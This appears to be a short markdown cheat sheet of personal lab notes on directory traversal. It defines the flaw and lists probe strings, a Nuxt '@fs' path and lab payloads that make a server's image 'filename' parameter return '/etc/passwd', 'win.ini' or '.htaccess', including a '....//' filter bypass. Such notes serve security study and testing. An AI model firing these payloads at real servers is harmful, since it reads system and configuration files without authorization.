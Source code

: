 # What is directory traversal
Allows read files in a server

## How to find
- Identify instances with common directory traversal
```bash
../../../../etc/passwd
../../../.htaccess
\..\WINDOWS\win.ini
\..\..\WINDOWS\win.ini
```

## Path Traversal in nuxt
```bash
/nuxt/@fs/etc/passwd
```

## Payloads used in lab
```bash
/image?filename=/../../../../../../../../etc/passwd
/image?filename=/../../../../../../../../etc/passwd
GET /image?filename=/etc/passwd
....//....//....//etc/passwd

```
